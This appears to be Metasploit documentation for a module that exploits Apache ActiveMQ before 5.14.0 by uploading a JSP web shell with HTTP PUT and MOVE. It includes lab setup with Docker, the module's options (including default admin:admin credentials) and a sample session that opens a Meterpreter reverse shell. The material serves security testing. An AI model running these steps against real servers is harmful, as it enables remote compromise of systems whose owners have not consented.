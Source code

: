 ## Vulnerable Application

This module exploits a vulnerability in Apache ActiveMQ 5.x before 5.14.0 which
allows remote attackers to upload and execute arbitrary files via an HTTP PUT
followed by an HTTP MOVE request. By default, a JSP web shell and Java
Meterpreter payload are uploaded to the `/fileserver/` path of a vulnerable
server, then moved via an HTTP MOVE request to either `/api/` or `/admin/`.
You should get a shell under the process running ActiveMQ.

### Configuring a Vulnerable Environment

To use a pre-built Docker image:

```
docker run -it -p 8161:8161 rmohr/activemq:5.10.0
```

To run an older version of ActiveMQ with Java 8, create a new `Dockerfile`:

```
FROM openjdk:8

ENV ACTIVEMQ_VERSION 5.9.0
ENV ACTIVEMQ apache-activemq-$ACTIVEMQ_VERSION

ENV ACTIVEMQ_HOME /opt/activemq

RUN \
    curl -O http://archive.apache.org/dist/activemq/apache-activemq/$ACTIVEMQ_VERSION/$ACTIVEMQ-bin.tar.gz && \
    mkdir -p /opt && \
    tar xf $ACTIVEMQ-bin.tar.gz -C /opt/ && \
    rm $ACTIVEMQ-bin.tar.gz && \
    ln -s /opt/$ACTIVEMQ $ACTIVEMQ_HOME && \
    useradd -r -M -d $ACTIVEMQ_HOME activemq && \
    chown activemq:activemq /opt/$ACTIVEMQ -R

USER activemq

WORKDIR $ACTIVEMQ_HOME
EXPOSE 61616 8161

CMD ["/bin/bash", "-c", "bin/activemq console"]
```

Next build and run the application:

```
docker build -t activemq:5.9.0 .
docker run -it -p 8161:8161 activemq:5.9.0
```

Verify the application is running by visiting
`http://localhost:8161/admin/test/` with the credentials `admin:admin`

## Verification Steps

1. Run the application locally.
1. Start msfconsole.
1. Do: `use multi/http/apache_activemq_upload_jsp`.
1. Do: `set rhosts <ip address of remote host> `.
1. Do: `set lhost <ip address of local machine`.
1. Do: `run`.
1. You should get a shell under the process running ActiveMQ.

## Options

### AutoCleanup

Remove web shells from the target system after callback is received (Default:
true)

### BasicAuthUser

User-supplied username (Default: admin)

### BasicAuthPass

User-supplied password associated with username (Default: admin)

### JSP

Desired name to assign to the JSP web shell when it is uploaded to the target
system. Do not include the `.jsp` extension (Default: randomly-generated string)

## Advanced Options

### UploadPath

Custom path into which web shells will be uploaded on the target system. If the
user determines that a nonstandard directory is able to execute .jsp files, the
user can specify this directory for exploitation (Default: attempt `/api/`; if that
fails, attempt `/admin/`)

## Scenarios

### Targeting ActiveMQ 5.9.0

```
$ msfconsole -q
msf6 > use multi/http/apache_activemq_upload_jsp
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/apache_activemq_upload_jsp) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Uploading http://127.0.0.1:8161/opt/activemq/webapps/api/qQSWrsmnXtZ.jar
[*] Uploading http://127.0.0.1:8161/opt/activemq/webapps/api/qQSWrsmnXtZ.jsp
[*] Sending stage (58110 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:45634) at 2021-03-14 18:25:38 -0400
[+] Deleted /opt/activemq/webapps/api/qQSWrsmnXtZ.jar
[+] Deleted /opt/activemq/webapps/api/qQSWrsmnXtZ.jsp

meterpreter >
```
